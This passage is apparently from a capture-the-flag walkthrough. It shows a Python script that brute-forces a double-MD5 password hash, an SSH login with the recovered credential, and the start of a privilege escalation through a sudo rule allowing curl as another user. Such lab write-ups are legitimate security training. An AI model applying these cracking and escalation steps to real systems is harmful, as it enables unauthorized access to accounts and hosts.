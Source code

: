 ```python
import hashlib


target_hash = "THESECRETHASHTHESECRETHASHTHESECRETHASH"

def double_md5(data):
    first_hash = hashlib.md5(data.encode('utf-8')).hexdigest()
    second_hash = hashlib.md5(first_hash.encode('utf-8')).hexdigest()
    return second_hash

def brute_force_double_md5(target_hash, prefix="rgiskard"):
    for i in range(10000):
        num = f"{i:04d}"
        data = prefix + num
        hash_result = double_md5(data)
        if hash_result == target_hash:
            return data
    return None

result = brute_force_double_md5(target_hash)

if result:
    print(f"Found the matching string: {result} with hash {hashlib.md5(result.encode('utf-8')).hexdigest()}")
else:
    print("No match found.")
```

```terminal
python3 find.py 
Found the matching string: rgiskardXXXX with hash THESECRETHASHTHESECRETHASHTHESECRETHASH
```

You can now use the hash and login with the user rgiskard over ssh:
```terminal
$ ssh rgiskard@10.10.181.45
rgiskard@10.10.181.45's password: 
rgiskard@ubuntu-jammy:~$
```

## Privilege escalation dolivaw

If you inspect your privileges you will see that you can run curl as the other user `dolivaw`.
```terminal
$ sudo -l
[sudo] password for rgiskard: 
Matching Defaults entries for rgiskard on ubuntu-jammy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User rgiskard may run the following commands on ubuntu-jammy:
    (dolivaw) /usr/bin/curl 127.0.0.1/*
```
